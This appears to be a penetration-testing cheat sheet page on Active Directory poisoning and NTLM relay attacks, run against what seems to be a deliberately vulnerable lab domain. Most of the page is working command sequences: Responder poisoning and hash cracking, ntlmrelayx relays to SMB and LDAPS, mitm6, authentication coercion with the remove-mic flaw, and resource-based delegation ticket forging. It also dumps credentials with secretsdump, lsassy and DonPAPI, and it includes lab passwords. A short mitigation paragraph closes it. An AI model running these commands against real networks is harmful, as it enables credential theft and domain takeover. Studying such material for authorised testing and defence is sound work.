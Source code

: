 # Poison and relay



```
// If you wish to keep seeing the hashes for same user add the v option.
responder -I <interface> -v
hashcat -m 5600 --force -a 0 responder.hashes /usr/share/wordlists/rockyou.txt 
or
john --format=netntlmv2 hash.txt
```

Note: if it doesn't work, try disable the firewall (ufw or firewalld depending on your distribution) on your attack machine.

Responder keep the logs in /var/log/responder/Responder-Session.log

> If you want to delete the previous captured logs (message skipped previously captured hash) delete the file /var/lib/responder/Responder.db



```
sqlite3 /var/lib/responder/Responder.db
sqlite> .help
sqlite> .tables
squite> select * from responder; // Yes, responder is a table
squite> .exit
```

sqlite3 /var/lib/responder/Responder.db



## Unsigned SMB

Let's find smb computers with signing:False to try a relay ntml authentification

```
cme smb 192.168.56.10-23 --gen-relay-list relay.txt
```



### responder + ntlmrelayx to smb

Before starting responder to poison the answer to LLMNR, MDNS and NBT-NS request we must stop the responder smb and http server as we don’t want to get the hashes directly but we want to relay them to ntlmrelayx.

```
sed -i 's/HTTP = On/HTTP = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
sed -i 's/SMB = On/SMB = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
ntlmrelayx -tf smb_targets.txt -of netntlm -smb2support -socks // cette commande indique que EDDARD.STARK est admin sur la target xxx.xxx.xx.22
```

and then we restart ntlmrelayx



### Use a socks relay with an admin account

#### Secretsdump

```
// Use secretsdump to get SAM database, LSA cached logon, machine account and some DPAPI informations
proxychains secretsdump -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22'
```



#### Lsassy

```
// dump lsass (lsass process store credentials)
proxychains lsassy --no-pass -d NORTH -u EDDARD.STARK 192.168.56.22
```



#### DonPapi

```
// get dpapi and other passwords stored informations (files, browser, schedule tasks,…). This tool don’t touch LSASS so it is stealthier 
proxychains DonPAPI -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22'
```



#### Smbclient

```
// connect to the smb server via smbclient
proxychains smbclient.py -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22' -debug

```



#### smbexec or atexec

With a socks connection you can only use smbexec or atexec. Neither wmiexec, psexec nor dcomexec will work. (explainations here : [https://github.com/SecureAuthCorp/impacket/issues/412](https://github.com/SecureAuthCorp/impacket/issues/412) )

```
proxychains smbexec.py -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22' -debug
```



### Mitm6 + ntlmrelayx to ldap

Windows by default prefers IPv6 over IPv4 so we could capture and poison the response to DHCPv6 query to change the DNS server and redirect queries to our machine with the tool [MITM6](https://github.com/dirkjanm/mitm6). To verify if Mitm6 did work, run `ipconfig /all` and notice that the DNS Servers entry has been changed to an IPV6 address.

```
mitm6 -i vboxnet0 -d essos.local -d sevenkingdoms.local -d north.sevenkingdoms.local --debug
ntlmrelayx.py -6 -wh wpadfakeserver.essos.local -t ldaps://meereen.essos.local --add-computer relayedpccreate --delegate-access
```

this ntlmrelayx.py command create a delegare access to Braavos$ because we poison Braavos$ computer account and it can set the msDS-AllowedToActOnBehalfOfOtherIdentity on the created computer. That's mean this new computer can now impersonate users on BRAAVOS$ via S4U2Proxy.

It is also possible to dump domain info by adding a loot directory...

```
ntlmrelayx.py -6 -wh wpadfakeserver.essos.local -t ldaps://meereen.essos.local -l /workspace/loot
```

### Coerced auth smb + ntlmrelayx to ldaps with drop the mic

It can be done via tools such as petitpotam, printerbug, DFSCoerce. We can also use a all-in-one tool [coercer](https://github.com/p0dalirius/Coercer.git).



you can’t relay smb connection to ldap(s) connection without using CVE-2019-1040 a.k.a remove-mic.

<pre class="language-bash"><code class="lang-bash"><strong># Start the relay with remove mic to the ldaps of meereen.essos.local.
</strong>ntlmrelayx -t ldaps://meereen.essos.local -smb2support --remove-mic --add-computer removemiccomputer --delegate-access

# Run the coerce authentication on braavos (braavos is a windows server 2016 up to date so petitpotam unauthenticated will not work here)
python3 coercer.py -u khal.drogo -d essos.local -p horse -t braavos.essos.local -l 192.168.56.1

# The attack worked we can now exploit braavos with RBCD
getST.py -spn HOST/BRAAVOS.ESSOS.LOCAL -impersonate Administrator -dc-ip 192.168.56.12 'ESSOS.LOCAL/removemiccomputer$:_53>W3){OkTY{ej'
   
# and use that ticket to retreive secrets
export KRB5CCNAME=/workspace/Administrator.ccache
secretsdump -k -no-pass ESSOS.LOCAL/'Administrator'@braavos.essos.local
</code></pre>







{% embed url="https://mayfly277.github.io/posts/GOADv2-pwning-part4/" %}

{% embed url="https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/" %}

{% embed url="https://jlajara.gitlab.io/controlling-DC-part1" %}

{% embed url="https://en.hackndo.com/ntlm-relay/" %}

{% embed url="https://www.thehacker.recipes/ad/movement/ntlm/relay" %}

{% embed url="https://www.sqlite.org/cli.html" %}



Fortunately, such attacks can be prevented and detected. To mitigate the first attack we mentioned using Responder's broadcast attacks, these can be prevented by disabling LLMNR and NBT-NS. Since networks already use DNS, these protocols aren't required unless you're running certain instances of Windows 2000 or earlier

To prevent the second showcased Responder attack caused by WPAD (Web Proxy AutoDiscovery) traffic, it is simply a matter of adding a DNS entry for ‘WPAD' pointing to the corporate proxy server. You can also disable the Autodetect Proxy Settings on your IE clients to prevent this attack from happening.
